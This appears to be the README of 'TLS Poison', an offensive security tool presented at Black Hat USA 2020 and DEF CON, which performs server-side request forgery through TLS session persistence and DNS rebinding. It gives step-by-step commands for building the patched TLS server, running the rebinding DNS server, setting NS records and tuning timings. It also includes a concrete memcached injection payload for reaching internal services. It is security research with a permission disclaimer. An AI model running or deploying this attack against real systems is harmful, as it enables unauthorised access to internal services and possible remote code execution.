

# TLS Poison

A tool that allows for generic SSRF via TLS, as well as CSRF via image tags
in most browsers.  The goals are similar to
[SNI injection](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf),
but this new method uses inherent behaviors of TLS,
instead of depending upon bugs in a particular implementation.

This was originally presented at [Blackhat USA 2020](https://www.blackhat.com/us-20/briefings/schedule/#when-tls-hacks-you-19446)
as well as [DEF CON Safemode](https://www.defcon.org/html/defcon-safemode/dc-safemode-speakers.html#Maddux).

A big thanks goes out to [rustls](https://github.com/ctz/rustls) and 
[dns-mitm](https://github.com/SySS-Research/dns-mitm), each of which this
is mostly just a strange patched fork.

## Motivation
Back when gopher support was common, people got a lot of mileage out of
using it for SSRF.  So much so that there's pretty good tooling like
[Gopherus](https://github.com/tarunkant/Gopherus) for doing so. This 
is because there are some software packages that often sit unauthenticated
on localhost or on an internal network.  A common one is memcached,
because writing to memcached can often become RCE.  

What if we could replicate this behavior, but instead of giving
the attack target a `gopher://` URL which isn't often supported, we
give it an `https://` URL?  This has been done before with SNI injection,
but what if we did it in a more universal way?

It turns out TLS provides us with the perfect thing - session persistence!
I plan on eventually writing up how this works, as well as more detail on
what attacks can be done with it.  For now you can either watch the Blackhat
or DEF CON talk, or attempt to decipher the following diagram I came up
with a while back:


## Instructions
As a heads up, you will need a domain where you can set NS records.
If needed can find a few free subdomain providers which may work by
[searching around](https://www.google.com/search?q=free+subdomain+hosting+with+ns+record),
but I have only tried with a dedicated top-level domain.  In any case
I'd recommend holding off on registering anything until you complete the
first few steps to make sure everything's working properly.
### TLS server
This should be on something public, where the DNS rebinding server will
eventually resolve to.  You should probably use a dedicated box/VM for
this, since you'll end up exposing whatever port you want to target, e.g.
11211 for memcached or 25 for SMTP.
```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 8443 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```
 
 ### DNS rebinding server
 You'll need this on a public box as well.  If you know for sure your
 box doesn't have a `systemd-resolved` stub resolver, it can be on the
 same box as `custom-tls`, but I'd recommend putting this on its own.
 ```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

### Setting up the NS record and certificates
You'll need to set up an NS record and a glue record so that DNS requests 
go to your rebinding server.  For example, if your domain is example.com,
you should add:
```
dns.example.com A 300 <DNS_IP>
tlstest.example.com NS 300 dns.example.com
```
Then to get a TLS certificate for `tlstest.example.com`, go to the
[certbot instructions] and complete a DNS challenge for it.  Then, go back to
`custom-tls` and rerun it:
```bash
target/debug/custom-tls  -p 8443--verbose --certs letsencrypt-cert.fullchain --key letsencrypt-key.rsa http
```
Now you're set up to attack real stuff!  When something makes a request to
`https://tlstest.jmaddux.com:8443`, both the TLS session poisoning and DNS
rebinding steps should be fully functional.

### Putting it all together
To use this in different situations, you'll need to vary a few things:
- port: Your TLS server will need to run on this port, since rebinding only
switches up the domain (e.g. tlstest.example.com:11211 can be either 35.x.x.x:11211,
or 127.0.0.1:11211)
- sleep: The duration the TLS server sleeps between redirects.  This varies
based upon what software you are sending custom-tls server, instead of what
internal service you're attacking.  For example, testing curl-initited SSRF this
can be 10000ms, but for chrome-based stuff it can be quite short.  On the other
hand, if you see the attacks failing because you hit a maximum number of redirects,
consider increasing this to 59000ms or beyond.  If you don't see TLS sessions being
persisted and re-delivered to the internal service, it can often be fixed by
varying the sleep time.
- payload: Typically will start with a newline, and then have whatever commands
you want to inject into the protocol you're targeting.

For example, for memcached:
```bash
redis-cli
127.0.0.1:6379> set payload "\r\nset foo 0 0 14\r\nim in ur cache \r"
Ctrl+c
# Note the following is port 11211 now.
target/debug/custom-tls -p 11211 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa -p 11211 http
```
Then run you can supply https://tlstest.example.com:11211 as your SSRF payload.
Good luck, and make sure not to attack anything you don't have permission!